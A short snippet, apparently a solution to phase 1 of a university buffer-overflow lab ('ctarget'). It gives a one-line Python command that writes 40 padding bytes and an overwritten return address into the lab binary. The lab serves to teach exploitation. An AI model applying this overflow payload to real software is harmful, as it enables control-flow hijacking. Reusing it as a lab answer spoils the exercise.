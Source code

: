 # phase 1

python3 -c 'import sys; sys.stdout.buffer.write(b"a"*40 + b"\xc0\x17\x40")' | ./ctarget -q
